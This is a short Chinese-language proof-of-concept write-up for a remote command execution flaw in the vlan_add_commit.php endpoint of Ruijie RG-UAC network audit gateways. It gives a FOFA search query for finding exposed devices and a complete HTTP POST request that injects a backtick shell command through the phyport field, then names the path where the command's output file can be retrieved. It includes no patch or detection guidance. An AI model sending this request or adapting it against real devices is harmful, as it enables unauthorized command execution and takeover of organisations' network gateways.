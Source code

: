 ## 锐捷RG-UAC统一上网行为管理审计系统vlan_add_commit.php存在远程代码执行

锐捷RG-UAC中存在命令执行漏洞，应用程序管理网关后端/view/networkConfig/vlan/vlan_add_commit.php接口。攻击者可以执行任意命令来控制服务器权限。

## fofa

```
app="Ruijie-RG-UAC"
```

## poc

```
POST /view/networkConfig/vlan/vlan_add_commit.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:124.0) 
Gecko/20100101 Firefox/124.0
Accept: 
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,imag
e/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,enUS;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-GPC: 1
Connection: close
Cookie: PHPSESSID=ebd507c9bc5a4293c3e5e596f37157bf
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 0000:0000:0000::0000
X-Originating-IP: 0000:0000:0000::0000
X-Remote-IP: 0000:0000:0000::0000
X-Remote-Addr: 0000:0000:0000::0000
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

phyport=`id+>2.txt`&vlanid=1
```

![image-20240526191526483](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405261915558.png)

文件路径`/view/networkConfig/vlan/2.txt`

![image-20240526191600183](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405261916232.png)



